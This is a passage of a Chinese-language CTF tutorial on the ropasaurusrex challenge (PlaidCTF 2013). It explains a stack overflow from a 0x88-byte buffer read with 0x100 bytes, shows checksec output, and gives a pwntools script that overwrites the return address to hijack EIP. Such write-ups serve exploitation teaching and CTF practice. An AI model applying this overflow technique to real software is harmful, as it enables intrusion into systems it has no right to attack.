 案例: ropasaurusrex (PlaidCTF 2013)

https://github.com/PHX2600/plaidctf-2013/tree/master/ropasaurusrex

buf长度为0x88，而read函数读入长度为0x100，存在栈溢出。
根据IDA Pro标记的buf位置，或调试可以得到，要覆盖到返回地址，填充的长度是(0x88 + 4)

![img](images/从栈溢出到ROP/ropasaurusrex1.png)

**缓解机制**

```
 $ checksec
 STACK CANARY : No canary found
 NX : NX enabled
 PIE : No PIE
 RELRO : No RELRO
 RPATH : No RPATH
 RUNPATH : No RUNPATH
```

**控制EIP**

使用python库pwntools与程序交互，pwntools同时支持标准输入输出方式的交互和远程TCP连接的方式的交互。

输入(0x88+4)个A，再加上"BBBB"，可以正好让"BBBB"覆盖返回地址，从而劫持eip

```
from pwn import *
context(arch='i386', os='linux', endian='little', log_level='debug')
elf = ELF('./ropasaurusrex')

# 这里采用标准输入输出交互的方式

p = process(elf.path)

# p = remote('127.0.0.1', 1337)

print '[+] PID: %s' % proc.pidof(p)
payload = 'A'*(0x88 + 4) + 'BBBB'
p.send(payload)

p.interactive()
```
